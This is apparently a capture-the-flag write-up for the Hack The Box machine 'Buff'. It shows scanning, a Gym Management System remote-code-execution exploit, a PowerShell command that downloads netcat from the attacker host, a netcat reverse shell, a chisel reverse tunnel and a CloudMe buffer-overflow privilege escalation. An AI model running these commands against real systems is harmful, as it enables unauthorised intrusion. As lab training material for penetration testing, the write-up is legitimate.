

## Buff

### Nmap Scanning

__Top 1000 ports scan__

```bash
$ nmap -sC -sV -Pn -oN nmap/buff  10.10.10.198
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-11 15:52 EDT
Nmap scan report for 10.10.10.198
Host is up (0.097s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.57 seconds
```

## Enumeration

- Webserver running on port 8080
- Homepage


- Found a RCE exploit on searchsploit



```bash
$ searchsploit Gym Management          
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection              | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass           | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting     | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Exe | php/webapps/48506.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

## Exploitation

```bash
─$ python 48506.py http://10.10.10.198:8080/                                           255 ⨯
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> dir
�PNG
�
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

11/09/2021  21:11    <DIR>          .
11/09/2021  21:11    <DIR>          ..
11/09/2021  21:11                53 kamehameha.php
               1 File(s)             53 bytes
               2 Dir(s)   7,121,997,824 bytes free

C:\xampp\htdocs\gym\upload> 
```

- upgrading the shell using netcat

```bash
C:\xampp\htdocs\gym\upload> powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.12/nc.exe','nc.exe')
�PNG
�

C:\xampp\htdocs\gym\upload> dir
�PNG
�
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

11/09/2021  21:27    <DIR>          .
11/09/2021  21:27    <DIR>          ..
11/09/2021  21:11                53 kamehameha.php
11/09/2021  21:27            59,392 nc.exe
               2 File(s)         59,445 bytes
               2 Dir(s)   7,440,818,176 bytes free

C:\xampp\htdocs\gym\upload> .\nc.exe -e cmd.exe 10.10.14.12 9001
```

__Result__

```bash
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.198] 49912
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

11/09/2021  21:27    <DIR>          .
11/09/2021  21:27    <DIR>          ..
11/09/2021  21:11                53 kamehameha.php
11/09/2021  21:27            59,392 nc.exe
               2 File(s)         59,445 bytes
               2 Dir(s)   7,441,637,376 bytes free

```

## Privilege escalation

- found a binary `cloudme.exe`

```bash
C:\Users\shaun\Downloads>dir 
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  13:27    <DIR>          .
14/07/2020  13:27    <DIR>          ..
16/06/2020  16:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,774,461,952 bytes free
```
- searchsploit resulted in `BOF` exploit (Firstone)

```
$ searchsploit cloudme                                                                  1 ⨯
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                      | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)             | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)             | windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)            | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)     | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasplo | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow                 | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt             | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)    | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                     | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)  | windows_x86-64/remote/44784.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

- We need to forward the running service on port `8888` from victim machine to our kali.

- For this we use `chisel` [Github](https://github.com/jpillora/chisel/releases).

<hr>
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

<hr>


- on victim machine

```bash
C:\xampp\htdocs\gym\upload>.\chisel.exe client 10.10.14.12:9002  R:8888:localhost:8888
.\chisel.exe client 10.10.14.12:9002  R:8888:localhost:8888
2021/09/11 22:21:54 client: Connecting to ws://10.10.14.12:9002
2021/09/11 22:21:56 client: Connected (Latency 141.1528ms)

```

- on kali, listen for the  connection from `chisel`

```bash
$ ./chisel server --reverse --port 9002
2021/09/11 17:15:40 server: Reverse tunnelling enabled
2021/09/11 17:15:40 server: Fingerprint yRzWStcIB8E8d/UkCTub+Os1Qnhcm3ePt0JuZOWmTus=
2021/09/11 17:15:40 server: Listening on http://0.0.0.0:9002
2021/09/11 17:18:32 server: session#5: tun: proxy#R:8888=>localhost:8888: Listening
```

- Now change the payload in python program and run the exploit

__Result__

```bash
$ nc -lvnp  9003
listening on [any] 9003 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.198] 49941
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```


